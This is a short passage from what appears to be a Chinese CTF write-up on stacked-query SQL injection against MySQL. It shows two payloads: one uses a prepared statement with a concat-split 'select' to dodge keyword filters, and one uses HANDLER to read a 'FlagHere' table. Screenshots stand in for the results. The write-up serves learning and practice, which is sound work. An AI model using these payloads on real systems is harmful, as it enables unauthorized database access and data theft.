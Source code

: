 手法略同，只是注入点不同

# 预编译注入
{% codeblock lang:PHP %}
1';use sqli;set @sql=concat('se','lect `字段` from `表名`');PREPARE ganyu FROM @sql;EXECUTE ganyu;#
{% endcodeblock %}

![upload successful](./images/pasted-563.png)

# Handler注入（从表名查询字段名）

{% codeblock lang:PHP %}
1';show tables;handler `FlagHere` open;handler `FlagHere` read first;#
{% endcodeblock %}

![upload successful](./images/pasted-564.png)
